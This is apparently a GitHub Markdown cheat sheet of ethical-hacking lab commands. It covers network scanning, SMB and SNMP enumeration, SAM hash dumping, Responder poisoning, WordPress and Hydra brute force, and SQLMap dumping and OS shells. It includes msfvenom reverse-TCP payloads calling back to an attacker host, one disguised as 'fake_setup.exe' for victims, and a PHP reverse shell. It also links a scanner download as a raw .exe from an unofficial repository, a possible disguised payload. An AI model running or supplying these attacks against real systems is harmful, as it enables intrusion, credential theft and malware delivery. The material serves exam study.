 # Reconnasiance/Footprinting
<details>
  <summary>Recon</summary>

* -r range , Scan Entire Network for ALive host using ARP
```console
:~$ netdiscover -r 192.168.29.1/24
```

* -f switch do not fragment, -l buffer size
```console
:~$ ping <host-ip> -f -l 1300
```
  * __`tracert`__ for windows cmd
```console
:~$ traceroute <host-ip>
```
* [Path Analyzer Pro](https://www.pathanalyzer.com/download.opp/) in traceroute tools, ensure icmp and smart is selected, stop on control is selected
* Start Metasploit Console
```console
:~# msfdb init && msfconsole
:~# msfdb status
```
* Nmap Scanning entire Network

```console
# Don’t ping=> -Pn, SYN scan=> -sS, Aggresive Scan=> -A, Normal_XML and Grepable format all at once=> -oA, Verbose=> -vv 

nmap -Pn -sS -A -oA -vv <Filename> 10.10.1.1/24
```
* Convert Nmap XML file to [HTML Report](https://nmap.org/book/output-formats-output-to-html.html/)
```console
xsltproc <nmap-output.xml> -o <nmap-output.html>
```
```console
# Scanning SMB Version for OS Detection using Metaspolit
use scanner/smb/smb_version
show options 
set RHOSTS 10.10.10.8-16 
set THREADS 100 
run
  
#Type hosts again and os_flavor will be visible
  hosts
```
</details>

# Scanning Network
<details>
  <summary>Scan Network</summary>

* -1 for ICMP ping scan, ICMP-echo request randomly (--rand-dest)
```console
:~$ hping3 -1 10.0.1.255 --rand-dest –I eth0 
```
* [Angry IP Scanner](https://angryip.org/download/#windows) of windows to Scan Entire Network
</details>
  
# ENUMERATION
<details>
  <summary>Enum</summary>
* Advanced IP Scanner (https://github.com/infovault-Ytube/test1/raw/main/ipscan25.exe) of windows
Specify IP range and start. Right click on alive hosts to perform actions, e.g. shutdown. Use Radmin for advanced features.

* [Hyena](https://www.systemtools.com/hyena/download.htm)
Expand local workstation to view Users, Services, User Rights, Scheduled Jobs 

* [NetBIOS Enumerator](http://nbtenum.sourceforge.net/)
Enter IP Range and click scan.

* NBT (NetBIOS over TCP/IP), which helps troubleshoot NetBIOS name resolution issues.
```console
nbtstat -A 204.224.150.3
```
* Accessing Shared Files
```console.
# List All Shared Resources
net view  <IP>

# Connect to Shared Resource
net use
net use \\10.10.10.1\e ""\user:""
net use \\10.10.10.1\e ""/user:""
```
* SNMP Enumeration
```shell
nmap -sU -p 161 10.10.1.2
nmap -sU -p 161 --script=snmp-brute 10.10.1.2

# Expoilt SNMP with Metasploit
msfdb init && msfconsole ↵
use auxilary/scanner/snmp/snmp_login ↵
set RHOSTS 10.10.1.2 ↵
exploit ↵
  
use auxilary/scanner/snmp/snmp_enum ↵
set RHOSTS 10.10.1.2 ↵
exploit ↵
```
* Enum4linux: Enumerating information from Windows and Samba systems
```console
enum4linux -A <Target_IP>
```
</details>
  
  # Vulnerability Analysis
<details>
  <summary>Vulerability</summary>
  
 * Nessus: Assest vulnerability scanner
 * Nikto: Web Server scanner
```console
nikto -h www.example.com tuning 1
  ```
  </details>
  
# System Hacking
<details>
  <summary> Sys password Hacking</summary>

```
# To Dump Windows SAM file hashes
pwDump7.exe> hashes.txt 
```
  > pwDump7.exe : To Dump Windows Hashes [PwDump7](https://www.tarasco.org/security/pwdump_7/pwdump7.zip)
  * [Ophcrack.exe](https://ophcrack.sourceforge.io/download.php?type=ophcrack) : To Crack SAM Hashes to obtain clear Password 
  * [rcrack_gui.exe](http://project-rainbowcrack.com/) : Use Raindow Table to crack hashes
  
  </details>

 
<details>
  <summary> Create A Reverse TCP Connection</summary>

```shell
# creates reverse TCP from windows  machine, send this file to victim machine via python-Webserver/shared resource
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=<attacker_IP> LPORT=444 -o fake_setup.exe  ↵

msfdb init && msfconsole ↵
use exploit/multi/handler ↵
set LHOST=<attacker-IP>  ↵
set LPORT=444 ↵
  run
```
</details>

# Steganography
<details>
<summary> Stego</summary>

##### Hide/unhide text in WhiteSpaces using[snow](http://www.darkside.com.au/snow/)

```shell
SNOW.EXE -C -p 1234 -m "Secret Message"  original.txt ciper.txt
 
# To unhide the hidden text
 
SNOW.EXE -C -p 1234  ciper.txt
```
  
> [OpenStego](https://github.com/syvaidya/openstego/releases) : Hide any data within a cover file like Images
<img src="https://www.openstego.com/image/screenshot/01.png" width="600" height="400" />
<img src="https://www.openstego.com/image/screenshot/02.png" width="600" height="400" />  
  
> [QuickStego](http://cybernescence.co.uk/software-products/QS12Setup.exe): Hide text in pictures without password
<img src="http://quickcrypto.com/content-images/QuickStego_12_Steganography_Software_Ex_sml.jpg" width="600" height="400" /> 
</details>

  
  
#  LLMNR/NBT-NS Poisoning
<details>
<summary> LLMNR/NBT</summary>

> [Responder](https://github.com/lgandx/Responder) : rogue authentication server to capture hashes
>
>> This can be used to get the already logged-in user's password, who is trying to access a shared resource which is not present [Step by Step](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
  
```shell
# In Parrot/Kali OS, 
responder -I eth0  ↵

# In windows, try to access the shared resource, logs are stored at usr/share/responder/logs/SMB<filename>
# To crack that hash, use JohntheRipper
john SMB<filename>  ↵
  
```
  </details>
  
#  Website Hacking/Password Cracking
<details>
<summary>Website Cracking</summary>
> SkipFish : Active Recon for Websites 
  
```console
skipfish -o 202 http://192.168.1.202/wordpress
```

> Wordpress Site Login BruteForce [Step-By-Step](https://www.hackingarticles.in/multiple-ways-to-crack-wordpress-login/)
```shell
# Wordpress site only Users Enumeration
wpscan --url http://example.com/ceh --enumerate U 

# Direct crack if we have user/password details

wpscan --url http://192.168.1.100/wordpress/ -U users.txt -P /usr/share/wordlists/rockyou.txt

# Using Metaspoilt
msfdb init && msfconsole
msf > use auxiliary/scanner/http/wordpress_login_enum
msf auxiliary(wordpress_login_enum) > set rhosts 192.168.1.100
msf auxiliary(wordpress_login_enum) > set targeturi /wordpress
msf auxiliary(wordpress_login_enum) > set user_file user.txt
msf auxiliary(wordpress_login_enum) > set pass_file pass.txt
msf auxiliary(wordpress_login_enum) > exploit
  
  
```
### File Upload Vulnerability
```shell
msfvenom -p php/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=<attacker-port> -f raw > file.php
  
msfdb init && msfconsole
use multi/handler
set payload php/meterepreter/reverse_tcp
set LHOST=attacker-ip
set LPORT= attcker-port
run

# If incase, metaspolit not working use NetCat and shell code below

```
> [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) : Use the code, change IP & Port and use it with NetCat listener  
```console
nc -vnl -p 1234
```
  
### SQL Injection
> Login bypass with [' or 1=1 --](https://github.com/mrsuman2002/SQL-Injection-Authentication-Bypass-Cheat-Sheet/blob/master/SQL%20Injection%20Cheat%20Sheet.txt) 
> [N-Stalker](https://www.nstalker.com/) : Select OWASP Policy => Scan Website for Vulnerabilites
 
> SQLMAP
  
```shell
#List databases, add cookie values
sqlmap -u "http://domain.com/path.aspx?id=1" cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” --dbs 
  OR
sqlmap -u "http://domain.com/path.aspx?id=1" cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low”   --data="id=1&Submit=Submit" --dbs  


# List Tables, add databse name
sqlmap -u "http://domain.com/path.aspx?id=1" cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name --tables  
  
# List Columns of that table
sqlmap -u "http://domain.com/path.aspx?id=1" cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --columns
  
#Dump all values of the table
sqlmap -u "http://domain.com/path.aspx?id=1" cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --dump
  

sqlmap -u "http:domain.com/path.aspx?id=1" cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” --os-shell
 
```
* Some links [DVWA:Blind SQL with SQLMap](https://medium.com/hacker-toolbelt/dvwa-1-9-viii-blind-sql-injection-with-sqlmap-ee8d59fbdea7), [DVWA - High Level with SQLMap](https://www.youtube.com/watch?v=IR1JsaSQLMc&ab_channel=Archidote)
  
  
  
</details>

<details>
<summary>Password Cracking</summary>

> Hydra : FTP, SSH, Telnet
  
```console
# SSH
hydra -l username -P passlist.txt 192.168.0.100 ssh
  
 # FTP
hydra -L userlist.txt -P passlist.txt ftp://192.168.0.100
 
# If the service isn't running on the default port, use -s
 hydra -L userlist.txt -P passlist.txt ftp://192.168.0.100 -s 221
  
# TELNET
hydra -l admin -P passlist.txt -o test.txt 192.168.0.7 telnet

# Login form
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!"  
  
```
  
</details>
  
# Cryptography
 <details>
 <summary>Cipering / Encrypting/ Hashes </summary>
   
 #### Hash
 
> Find/Decrypt Hash Online with [Hashes.com](https://hashes.com/en/decrypt/hash)
 
```shell
 # In Kali
 $hash-identifier  
   
 #Decrypt Hashes
 hashcat '5f4dcc3b5aa765d61d8327deb882cf99' /usr/share/wordlists/rockyou.txt
```
> Calculate Hash of text/File by [HashCalc](https://www.slavasoft.com/download.htm) in Windows🪟
 <img src="https://www.slavasoft.com/images/screenshots/hashcalc.png" />
 
> [MD5Calculator](https://www.bullzip.com/download/md5/md5calc(1.0.0.0).zip) in Windows🪟
 <img src="https://www.bullzip.com/products/md5/dialog.png" />

### CryptoForge 
> Encrypt data with Password and only be decoded with cryptoforge by giving password
 <img src="Cryptoforge.jpg" />   

### BCTextEncoder: Text Encode/Decode
   
<img src="https://www.jetico.com/file-downloads/web_help/bctextencoder/img/textEncode.png" />   

### VeraCrypt: Disk Encrypt/Decrypt
> [Step-By-Step-Tutotrial](https://www.veracrypt.fr/en/Beginner%27s%20Tutorial.html)

### CrypTool : Encode/Decode Text (File Extension is .hex)

<img src="Crytool.jpg" />   
   
   
  </details> 
